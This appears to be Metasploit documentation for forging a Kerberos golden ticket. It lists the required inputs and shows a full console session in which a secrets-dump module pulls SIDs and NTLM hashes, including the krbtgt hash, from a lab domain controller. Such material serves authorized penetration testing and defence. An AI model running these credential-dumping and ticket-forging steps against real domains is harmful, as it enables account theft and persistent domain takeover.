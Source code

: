## Scenarios

### Forge Golden ticket

Golden tickets can be used for persistence in an Active Directory environment. The forged golden ticket is actually a Ticket Granting Ticket (TGT) - which can be used to request arbitrary Service tickets. This module does not connect directly to a Key Distribution Center (KDC), it instead forges its own ticket.

Golden tickets can be forged using a stolen Kerberos `krbtgt` account, using a password hash in NTHASH format.

For golden ticket attacks, the following information is required:

1. `DOMAIN` - The domain, i.e.`adf3.local`
2. `DOMAIN_SID` - This is the Security Identifier for the system, i.e. `S-1-5-21-1266190811-2419310613-1856291569`
3. `NTHASH` - The NTHASH for the krbtgt account, i.e. `767400b2c71afa35a5dca216f2389cd9`
4. `USER` - This username will be stored within the forged ticket, this must be a user that exists in Active Directory
5. `USER_RID` - The relative identifier(RID) for users will be stored within the forged ticket, i.e. Administrator accounts have a RID of `500`

One way of extracting the krbtgt account NTHASH is to run the `auxiliary/gather/windows_secrets_dump` module:

```msf
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > run smb://adf3.local;Administrator:p4$$w0rd@dc3.adf3.local
[*] Running module against 192.168.123.13

[*] 192.168.123.13:445 - Service RemoteRegistry is already running
[*] 192.168.123.13:445 - Retrieving target system bootKey
[+] 192.168.123.13:445 - bootKey: 0xa03745c7a9597f105a4df1e84a5aef04

... omitted for brevity ...

[*] 192.168.123.13:445 - Decrypting NL$KM
[*] 192.168.123.13:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.123.13:445 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 192.168.123.13:445 - Using the DRSUAPI method to get NTDS.DIT secrets
[*] 192.168.123.13:445 - SID enumeration progress -  0 / 24 ( 0.00%)
[*] 192.168.123.13:445 - SID enumeration progress - 24 / 24 (  100%)
# SID's:
ADF3\Administrator: S-1-5-21-1266190811-2419310613-1856291569-500
ADF3\Guest: S-1-5-21-1266190811-2419310613-1856291569-501
ADF3\krbtgt: S-1-5-21-1266190811-2419310613-1856291569-502 <------------- Use the SID from here, the part before RID 502
ADF3\DefaultAccount: S-1-5-21-1266190811-2419310613-1856291569-503
ADF3\j.blogs: S-1-5-21-1266190811-2419310613-1856291569-1104
ADF3\admin: S-1-5-21-1266190811-2419310613-1856291569-1112
ADF3\DC3$: S-1-5-21-1266190811-2419310613-1856291569-1001
ADF3\WIN10-DC3$: S-1-5-21-1266190811-2419310613-1856291569-1608
ADF3\WIN11-DC3$: S-1-5-21-1266190811-2419310613-1856291569-1609

... omitted for brevity ...

# NTLM hashes:
ADF3\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32ede47af254546a82b1743953cc4950:::
ADF3\Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ADF3\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:767400b2c71afa35a5dca216f2389cd9::: <-- The krbtgt NTHASH
```

